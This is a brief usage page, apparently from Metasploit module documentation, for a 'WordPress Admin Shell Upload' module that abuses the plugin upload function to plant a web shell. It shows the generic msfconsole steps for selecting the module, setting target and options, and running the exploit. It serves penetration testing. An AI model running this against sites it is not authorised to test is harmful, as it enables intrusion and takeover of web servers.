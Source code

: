 # WordPress Admin Shell Upload

Abuse the plugin function to upload a shell.

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > show targets
    ...targets...
msf exploit(wp_admin_shell_upload) > set TARGET < target-id >
msf exploit(wp_admin_shell_upload) > show options
    ...show and set options...
msf exploit(wp_admin_shell_upload) > exploit
```